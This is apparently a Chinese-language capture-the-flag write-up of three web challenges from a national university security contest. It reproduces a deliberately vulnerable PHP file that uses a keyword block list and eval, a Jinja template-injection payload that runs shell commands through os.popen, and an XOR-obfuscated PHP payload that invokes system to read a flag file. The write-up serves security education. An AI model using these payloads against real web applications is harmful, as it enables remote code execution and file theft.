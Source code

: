 第十三届全国大学生信息安全竞赛-创新实践能力赛西南赛区选拔赛wp

# day1

### web1

扫一下目录，有个www.rar，解压审计一下代码，找到关键文件key.php

```php
<?php
	class XJNU{
		private function flag(){
			echo $flag;
		}
	}


	if(preg_match("/system|exec|eval|shell_exec|passthru|phpinfo/i" , $_GET['f'])){
		die("do not attack me");
	}
	if(preg_match("/system|exec|eval|shell_exec|passthru|phpinfo/i" , $_GET['c'])){
		die("do not attack me");
	}
	if(preg_match("/XJNU|flag/i" , $_GET['f']) || preg_match("/XJNU|flag/i" , $_GET['c'])){
		die("no way!<br>");
	}
	$new = call_user_func_array($_GET['f'],["", $_GET['b']]);
	eval($_GET['c']);
?>
```

回调函数的rce，不过因为参数c过滤不严格，导致可以通过getheader来rce。

先var_dump(scand("/"))找到flag文件，再用readfile读就可以了。

![](wp-1.png)

### Web2

随便输入账户登录进去，fuzz一下，在每日报告的第三个参数存在ssti。过滤了些关键字，用globals来找就行。

payload：

```
status_1=&status_2=&status_3={{url_for.__globals__.os.popen('cat /flag2333_canufindit').read()}}
```

![](wp-2.png)

# day2

### simplecalculator

一个简单的命令执行,Ban一些符号与字符函数，可以通过重载函数的方法来调用。因此我们利用异或拼出GET然后调用system来rec。

![image-20200920162855771](C:\Users\lexs\AppData\Roaming\Typora\typora-user-images\image-20200920162855771.png)

Payload如下：

```
`http://172.1.21.13/flag.php?search=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag.txt
```

`



![image-20200920163003542](C:\Users\lexs\AppData\Roaming\Typora\typora-user-images\image-20200920163003542.png)